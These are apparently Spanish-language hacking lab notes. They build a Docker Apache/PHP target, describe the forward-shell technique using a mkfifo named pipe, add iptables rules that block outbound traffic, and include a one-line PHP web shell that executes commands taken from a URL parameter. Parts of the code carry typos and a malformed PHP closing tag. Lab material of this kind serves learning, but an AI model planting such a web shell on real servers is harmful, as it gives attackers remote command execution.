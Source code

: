 docker run -dit -p 80:80 --name container_name image_name

docker exec -it container_name bash



- Forward Shell: Esta técnica se utiliza cuando no se pueden establecer conexiones Reverse o Bind debido a reglas de Firewall implementadas en la red. Se logra mediante el uso de mkfifo, que crea un archivo FIFO (named pipe), que se utiliza como una especie de “consola simulada” interactiva a través de la cual el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa, el atacante redirige el tráfico a través del archivo FIFO, lo que permite la comunicación bidireccional con la máquina remota.




### IPTABLES


```bash
FROM ubuntu:latest
ENV DEBIAN_FRONTEND=noninteractive
RUN apt update && apt install -y apache2 \
    php
EXPOSE 80
ENTRYPOINT service apache2 start & /bin/bash
```

docker build -t image_name .


docker run -dit -p 80:80 --cap-add=NET_ADMIN --name container_name image_name

docker exec -it container_name bash



apt install iptables 

iptables --flush

**Acptar todas las conexiones al puerto 80**

//iptables -A OUTPUT -p tcp -m tcp --dport 80 -j ACCEPT
//iptables -A OUTPUT -p tcp -m tcp --dport 0-65535 -m contrack --ctstate NEW -j DROP


iptables -A OUTPUT -p tcp -m tcp -o eth0 --sport 80 -j ACCEPT

iptables -A OUTPUT -o eth0 -j DROP






```bash
<?
echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>"
>
```

### TTYOverHTTP
